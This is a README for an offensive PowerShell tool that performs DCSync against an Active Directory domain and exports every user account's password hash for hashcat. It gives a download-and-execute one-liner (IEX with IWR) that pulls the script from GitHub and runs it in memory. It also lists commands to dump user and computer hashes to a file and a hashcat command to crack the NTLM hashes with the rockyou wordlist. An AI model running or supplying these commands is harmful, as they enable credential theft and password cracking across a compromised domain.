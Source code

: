 # DCSync-To-hashcat
Performs DCSync and extracts all user accounts hashes in a hashcat friendly format

### Load into memory:
```
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/The-Viper-One/DCSync-To-Hashcat/main/DCSync-To-Hashcat.ps1)
```
### Commands:
```
Invoke-DCSyncTH                             # Run with default options
Invoke-DCSyncTH -ComputerHashes -Y          # Include computer accounts
Invoke-DCSyncTH -OutputToFile -Y            # Output hashes to file. Defaults to $HOME\Hashcat_Final.txt 
```
### Sample Output
![image](https://user-images.githubusercontent.com/68926315/226433487-431a26e1-9b8a-46b6-af31-ea879b8bca6b.png)

### hashcat cracking
The results can be copied over to file and run againt Hashcat
```
hashcat -a 0 -m 1000 hashes.txt Wordlists/rockyou2021.txt
```
